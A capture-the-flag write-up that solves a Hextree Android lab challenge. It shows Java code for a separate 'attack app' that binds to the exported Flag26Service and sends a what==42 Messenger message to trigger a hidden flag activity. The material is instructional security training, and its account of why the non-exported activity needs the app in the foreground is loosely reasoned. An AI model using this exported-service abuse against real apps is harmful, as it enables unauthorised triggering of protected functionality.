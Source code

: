 ```yaml
---
layout: post
title: Exploiting Flag26Service – Android Messenger-Based Service (Hextree CTF)
categories: android
date: 2025-06-09
tags:
  - Android
  - IPC
  - Messenger
  - Android
  - CTF
  - Hextree
  - Android
  - Services
  - App
  - Security
image: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSXmYjvkPoTPJk7lEIJpt19Z24OkecfMezJNg&s 
pin: false
comments: true
toc: true
---
```



## 🔍 Challenge Overview

We're given a bound `Service` called `Flag26Service`, which exposes a `Messenger` IPC interface using `onBind()`:

```java
@Override
public IBinder onBind(Intent intent) {
    return this.messenger.getBinder();
}
````

The service uses a `Handler` to process incoming messages. When it receives a message with `what == 42`, it triggers this function:

```java
private void success(String str) {
    Intent intent = new Intent(this, Flag26Activity.class);
    intent.putExtra("secret", secret);
    intent.putExtra("what", 42);
    intent.addFlags(268468224);
    intent.putExtra("hideIntent", true);
    startActivity(intent);
}
```

This launches the activity containing the flag, passing the secret and flag trigger values via the `Intent`.

---

## 🚧 The Catch

Even if you successfully bind to the service and send `Message.what == 42`, **`Flag26Activity` is not exported**:

```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag26Activity"
    android:exported="false"/>
```

This means the activity **cannot be launched** from your external app **unless the target app is already in the foreground or running in the background**.

---

## ✅ Solution Steps

### 1. Create a separate app

This is your attack app.

### 2. Bind to the service

Use `Context.BIND_AUTO_CREATE` to connect to the exported `Flag26Service`.

```java
Intent intent = new Intent();
intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag26Service");
bindService(intent, connection, Context.BIND_AUTO_CREATE);
```

### 3. Send the trigger message

Use a `Messenger` to send a message with `what == 42`.

```java
Message msg = Message.obtain(null, 42);
serviceMessenger.send(msg);
```

### 4. Bring the app to the foreground

Since `Flag26Activity` is not exported, the service **won’t launch it** unless the app is running in the foreground.

✅ **Workaround:**
After pressing the attack button, **manually open the target app** (`io.hextree.attacksurface`) to bring it to the foreground.
This will allow `startActivity(intent)` inside the service to succeed.

---

## 🏁 Flag Retrieval

Once the activity is launched, it checks if the passed `secret` matches the static `Flag26Service.secret`, and shows the flag if so:

```java
if (Flag26Service.secret.equals(stringExtra)) {
    success(this);
}
```

✅ **The flag is displayed inside `Flag26Activity` UI or logged using the internal `LogHelper` class.**

---

thanks for reading.
If you enjoyed this write-up, feel free to follow me on [Twitter](https://twitter.com/00xmora)